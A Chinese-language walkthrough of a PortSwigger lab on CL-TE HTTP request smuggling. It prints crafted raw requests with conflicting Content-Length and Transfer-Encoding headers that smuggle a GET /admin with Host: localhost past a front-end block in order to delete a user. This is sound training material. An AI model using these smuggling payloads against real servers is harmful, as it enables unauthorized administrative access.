 #### CL-TE绕过前端服务器安全控制

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

**实验描述**：

本实验中包括一个前端和后端服务器，前端服务器不支持chunked encoding。同时本实验存在管理员系统/admin，但前端服务器限制了直接访问它。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

分别访问/home和/admin，前者显示`"Not Found"`，后者显示`"Path /admin is blocked"`

(images/15905476895690.png)

(images/15905476937179.png)


已提示CL-TE，即前端只识别`Content-Length`，后端只识别`Transfer-Encoding`

构造一个走私请求

```bash
GET /home HTTP/1.1
Host: ac6c1fff1e1b83fa809c15fe009a008d.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ZZT6WpfyCJOaSO3LiMQrzMhEU7gIW0GE
Content-Length: 24
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1

```

根据返回消息可知需要使用POST方法

多次发送请求后收到提示：需要以localhost形式访问/admin

如果不成功需要多次发送请求

(images/15905477084740.png)


添加`Host: localhost`后多次发送请求

(images/15905477162717.png)


提示：不允许提交重复的header names，此处官网给出的解释是：

> Observe that the request was blocked due to the second request’s Host header conflicting with the smuggled Host header in the first request.
> 
> Issue the following request twice so the second request’s headers are appended to the smuggled request body instead:
> 
> * * *

```bash
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=  

```

简言之，由于第二个请求的`Host header`与第一个请求中走私请求的`Host header`冲突，请求被阻止。

因此构造以上请求，在发送两次请求的时候，可将第二个请求http数据包附加到走私请求主体中，拼接在x=之后，成为一个请求。

最后构造删除请求即可

(images/15905477615642.png)


当然这里可以不采用以上方法，多次发送请求仍有概率成功，但成功率无法保证

(images/15905477680868.png)


